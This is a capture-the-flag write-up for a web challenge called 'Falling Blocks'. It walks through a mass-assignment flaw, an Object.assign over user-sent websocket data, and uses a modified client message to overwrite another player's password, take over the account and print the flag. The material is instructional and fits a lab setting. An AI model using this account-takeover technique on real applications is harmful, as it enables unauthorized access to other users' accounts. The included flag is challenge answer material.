 ```yaml
---
ai_date: '2025-04-27 05:27:59'
ai_summary: Exploited unauthorized data modification and password manipulation to
  gain flag
ai_tags:
- http-hdr
- sql
- xss
created: 2025-04-19T04:32
points: 423
solves: 45
title: Falling Blocks
updated: 2025-04-20T20:27
---
```


We can just cheat directly no?

```js
if (score > 10000) {
    data.score = 0;
}

/////

app.get('/logout', utils.authMiddleware, async (req, res) => {
    if (req.user.username !== await client.HGET(req.user.username, 'username')) {
        return res.json({ "message": "Stop cheating!" });
    }
    const score = await client.HGET(req.user.username, 'score');
    if (score > 10000) {
        return res.json({ "message": process.env.FLAG });
    }
    res.clearCookie("user");
    res.redirect("/login");
});
```

Maybe not, it seems that we can't exactly just get the flag directly by changing our score.

But wait, is that a `Object.assign` I see? With user provided data?

```js
const data = JSON.parse(message);
if (data.type && data.time && data.score) {
    if (data.type === 'gameOver') {
        let score = data.score;

        if (score > 10000) {
            data.score = 0;
        }

        userdata = Object.assign(userdata, data);
        userdata.score = Math.max(userdata.score, await client.HGET(userdata.username, "score"));
        await client.HSET(userdata.username, userdata);
        scoreboard.addScore(userdata.score, userdata.username);
    }
}
```

And we can just edit the `userdata` of any user?

Well that means we can edit their passwords.

```js
if (username !== await client.HGET(username, 'username')) {
    return res.json({ "message": "Stop cheating!" });
}
if (password === await client.HGET(username, 'password')) {
    res.cookie("user", await client.HGET(username, 'tokens'), {
        httpOnly: true
    });
    return res.redirect('/game');
}
```

We can just patch the `game.js` file to send our own data (turn on browser local override).

This is override Ssundae's password to `Ssundae`.

```js [game.js]
ws.send(JSON.stringify({ type: 'gameOver', time: new Date().toLocaleTimeString(), score: score, username: "Ssundae", password: "Ssundae" }));
// alert('Game Over! Score: ' + score);
// document.location.reload();
```

Then we logout and login with `Ssundae` / `Ssundae`, and logout again.

```flag
UMASS{F@lLiNgH@rD_0N_w3bS0cK3ts!437}
```